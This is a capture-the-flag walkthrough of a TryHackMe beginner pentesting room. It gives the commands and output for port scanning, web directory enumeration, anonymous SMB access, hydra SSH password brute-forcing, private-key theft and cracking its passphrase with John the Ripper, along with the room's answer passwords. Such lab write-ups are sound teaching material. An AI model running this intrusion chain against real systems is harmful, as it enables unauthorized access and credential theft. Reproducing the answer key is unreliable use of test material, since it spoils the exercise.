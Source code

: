 # Basic Pentesting

* Link: https://tryhackme.com/room/basicpentestingjt
* Difficulty: Easy
* Points: 300

> Find the services exposed by the machine

```sh
rustscan -a 10.10.42.49
```

> What is the name of the hidden directory on the web server(enter name without /)?

```sh
gobuster dir -u 10.10.42.49 -w /usr/share/wordlists/dirb/common.txt
```

**Answer**: development

> User brute-forcing to find the username & password

> What is the username?

```sh
smbclient -L 10.10.42.49
```

```
Enter WORKGROUP\kali's password:

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available
```

```sh
smbclient "//10.10.42.49/Anonymous"
```

```
smb: \> ls
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018

                14318640 blocks of size 1024. 11093976 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
```

```sh
cat staff.txt
```

```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

**Answer**: Jan

> What is the password?

```sh
hydra -l jan -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.10.42.49 -t 4 ssh
```

**Answer**: armando

> What service do you use to access the server(answer in abbreviation in all caps)?

**Answer**: SSH

> Enumerate the machine to find any vectors for privilege escalation

We can use `scp` to copy a script like [LinEnum.sh](https://github.com/rebootuser/LinEnum) to our target machine.

```sh
scp /opt/LinEnum/LinEnum.sh jan@10.10.42.49:/dev/shm
```

LinEnum shows us another user on the target system: "kay".

> What is the name of the other user you found(all lower case)?

**Answer**: kay

> If you have found another user, what can you do with this information?

We can take a look at their /home/ directory:

```sh
ls -al /home/kay/
```

```
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
```

```sh
ls -al /home/kay/.ssh/
```

```
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

The file /home/kay/.ssh/id_rsa seems to be readable!

We copy it to our host system and try to establish a SSH connection as the user "kay":

```sh
chmod 600 /tmp/kay.id_rsa
ssh -i /tmp/kay.id_rsa kay@10.10.42.49
```

```
Enter passphrase for key '/tmp/kay.id_rsa':
```

The private key seems to be password protected. We can use John the Ripper to brute force it. First, we need to convert the RSA key into a format that `john` can understand.

```sh
/usr/share/john/ssh2john.py /tmp/kay.id_rsa | tee /tmp/kay.id_rsa.john
```

```sh
john /tmp/kay.id_rsa.john
```

```
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
beeswax          (/tmp/kay.id_rsa)
```

We find out that the password for "kay" is "beeswax".

> What is the final password you obtain?

```sh
ssh -i /tmp/kay.id_rsa kay@10.10.42.49
```

We use the password "beeswax".

```sh
ls -l
```

```
total 4
-rw------- 1 kay kay 57 Apr 23  2018 pass.bak
```

```sh
cat pass.bak
```

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

**Answer**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
